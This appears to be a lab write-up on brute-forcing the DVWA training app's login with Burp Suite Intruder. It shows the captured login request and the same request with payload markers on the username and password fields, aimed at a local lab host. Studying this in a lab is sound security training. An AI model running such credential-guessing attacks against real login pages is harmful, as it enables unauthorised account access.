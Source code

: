 #### How it Works
Brute force is a way to force multiple login attempts through a system to see if something works. it is considered a form of broken authentication because of how easy it is for an attcker to gain access to a system with force.

#### Scenario
As an attacker I want to log into a system, well how do I do that? It would take me literal ages to iterate all of the possible cominations I have at my fingertips so why not use a tool such as burp suite to make my job easier. So here is what I do. I go to the website I want to hack (DVWA) and I turn on my burp suite proxy to capture any requests made from the website. Using the burp suite intruder I create a payload position (§§) at username=§1§ and password=§2§ the §#§ allows me to enter the data that I am going to use. I create a list of usernames at #1 and passwords at #2 and then attempt to access the system. 

---
##### Raw Request 
```
GET /dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login HTTP/1.1

Host: 10.0.0.87

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://10.0.0.87/dvwa/vulnerabilities/brute/

Connection: close

Cookie: security=low; PHPSESSID=efql019acl3531g7he4q74b7u0

Upgrade-Insecure-Requests: 1
```

##### Intruder Request 
```
GET /dvwa/vulnerabilities/brute/?username=§admin§&password=§password§&Login=Login HTTP/1.1

Host: 10.0.0.87

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://10.0.0.87/dvwa/vulnerabilities/brute/

Connection: close

Cookie: security=low; PHPSESSID=efql019acl3531g7he4q74b7u0

Upgrade-Insecure-Requests: 1
```
##### Valid Response(s)
```
HTTP/1.1 200 OK

```